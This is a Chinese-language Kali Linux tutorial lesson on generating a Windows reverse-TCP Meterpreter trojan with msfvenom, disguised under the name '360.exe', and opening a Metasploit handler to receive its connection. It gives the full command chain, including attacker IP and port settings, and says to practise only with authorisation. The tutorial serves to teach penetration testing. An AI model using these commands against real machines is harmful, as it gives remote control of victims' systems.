






# Kali渗透教程：P5：生成木马与开启监听

## 概述
在本节课中，我们将学习渗透测试中一个非常核心且常用的技术：生成木马程序并开启监听。我们将使用Kali Linux自带的工具`MSFvenom`来生成一个简单的Windows木马，并配置Metasploit的监听模块，等待目标运行木马后建立连接。整个过程模拟了攻击者如何通过社会工程学等方式传播恶意软件并获取控制权。

## 生成木马程序
上一节我们介绍了利用漏洞进行攻击，但并非所有系统都存在已知漏洞。本节中我们来看看另一种更通用的攻击方式：生成木马。

木马是渗透测试中最常用的工具之一。它的原理是诱使目标用户运行一个伪装成正常程序的恶意软件，从而让攻击者获得对目标系统的控制权。这类似于早年电脑中毒的情况，许多破解软件或游戏可能被嵌入了木马。

生成木马需要使用Kali Linux中的`MSFvenom`工具。`venom`意为“毒液”，该工具可以生成针对多种操作系统（如Windows、Linux、Android、macOS）的后门程序。

以下是使用`MSFvenom`生成一个Windows可执行程序（.exe）后门的基本命令格式：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<监听端口> -f exe -o <输出文件名>.exe
```

*   **`-p`**：指定攻击载荷（Payload）。这里我们使用`windows/x64/meterpreter/reverse_tcp`，表示生成一个能回连到攻击者并建立Meterpreter会话的64位Windows木马。
*   **`LHOST`**：设置监听主机的IP地址，即攻击者（Kali）的IP地址。
*   **`LPORT`**：设置监听端口，可以是1到65535之间的任意端口。
*   **`-f`**：指定输出文件的格式。`exe`表示生成Windows可执行文件。
*   **`-o`**：指定输出文件的名称。

现在，让我们在Kali Linux的终端中执行这个命令。建议切换到`root`用户以避免可能的权限问题。

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.136 LPORT=10000 -f exe -o 360.exe
```



命令执行后，会在当前目录下生成一个名为`360.exe`的木马文件。这样，一个简单的木马就生成完毕了。

## 开启监听等待连接
木马生成后，攻击者需要建立一个“接收点”来等待目标上线。这就像电信诈骗中，骗子需要提供一个电话号码或银行卡号来接收汇款。

我们需要在Metasploit框架中配置一个处理程序（Handler）来监听指定端口，等待木马连接。

首先，打开`msfconsole`，然后使用`exploit/multi/handler`模块。



```bash
msfconsole
use exploit/multi/handler
```

接下来，我们需要配置该模块，其参数必须与生成木马时使用的参数完全一致。

以下是需要设置的三个核心选项：
1.  **`set PAYLOAD`**：设置与木马相同的攻击载荷。
2.  **`set LHOST`**：设置与木马相同的监听IP地址。
3.  **`set LPORT`**：设置与木马相同的监听端口。

配置命令如下：





```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.136
set LPORT 10000
```

所有选项设置完成后，运行`run`或`exploit`命令开始监听。

```bash
run
```

此时，Metasploit会开始在`192.168.1.136`的`10000`端口上进行监听，就像把鱼钩放入了水中。一旦目标用户运行了`360.exe`木马文件，该木马就会尝试连接到这个地址和端口，从而建立一条反向Shell连接，攻击者便能获得对目标系统的控制权。



> **注意**：在实际测试中，木马文件很可能被目标系统的杀毒软件立即查杀。这涉及到木马的免杀技术，属于更高级的内容。

## 总结
本节课中我们一起学习了渗透测试中木马攻击的基本流程。
1.  我们使用`MSFvenom`工具生成了一个Windows反向TCP连接木马，并理解了其关键参数的作用。
2.  我们学习了如何在Metasploit中配置并使用`exploit/multi/handler`模块开启监听，等待目标上线。



这个过程展示了从制作攻击工具到建立控制通道的完整链条，是理解客户端攻击原理的基础。请务必在合法授权的环境中进行练习。